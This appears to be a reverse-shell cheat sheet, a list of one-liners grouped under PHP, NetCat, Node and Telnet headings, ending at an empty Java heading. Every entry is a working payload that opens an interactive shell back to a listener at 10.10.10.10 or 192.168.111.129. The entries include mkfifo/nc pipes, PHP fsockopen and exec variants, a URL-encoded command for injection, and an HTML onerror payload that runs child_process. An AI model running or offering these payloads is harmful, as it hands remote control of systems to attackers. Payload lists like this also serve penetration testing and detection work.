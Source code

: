 ## **Php**

```
<?php passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 443 >/tmp/f"); ?>

php -r '$sock=fsockopen("10.10.10.10",443);`/bin/sh -i <&3 >&3 2>&3`;'

php -r '$sock=fsockopen("10.10.10.10",443);exec("/bin/sh -i <&3 >&3 2>&3");'

php -r '$sock=fsockopen("10.10.10.10",443);system("/bin/sh -i <&3 >&3 2>&3");'

php -r '$sock=fsockopen("10.10.10.10",443);shell_exec("/bin/sh -i <&3 >&3 2>&3");'

php -r '$sock=fsockopen("10.10.10.10",443);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
```

## **NetCat**

```
ncat 10.10.10.10 443 -e /bin/bash

nc -c /bin/sh 10.10.10.10 443

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 443 >/tmp/f

nc.exe -e cmd 10.10.10.106 443

nc -e /bin/sh 10.10.10.10 443

rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.10.10%20443%20%3E%2Ftmp%2Ff
```

## **Node**

```
require('child_process').exec('bash -i >& /dev/tcp/10.10.10.10/443 0>&1');

<audio src*=x* onerror="const exec= require('child_process').exec;exec('nc -e 3 192.168.111.129 1337 < /bin/bash', (e, stdout, stderr)=> { if (e instanceof Error) {console.error(e); throw e; } console.log('stdout ', stdout);console.log('stderr ', stderr);});alert('1')">
```

## **Telnet**

```
rm -f /tmp/p; mknod /tmp/p p && telnet 10.10.10.10 443 0/tmp/p

telnet 10.10.10.10 80 | /bin/bash | telnet 10.10.10.10 443
```

## **Java**
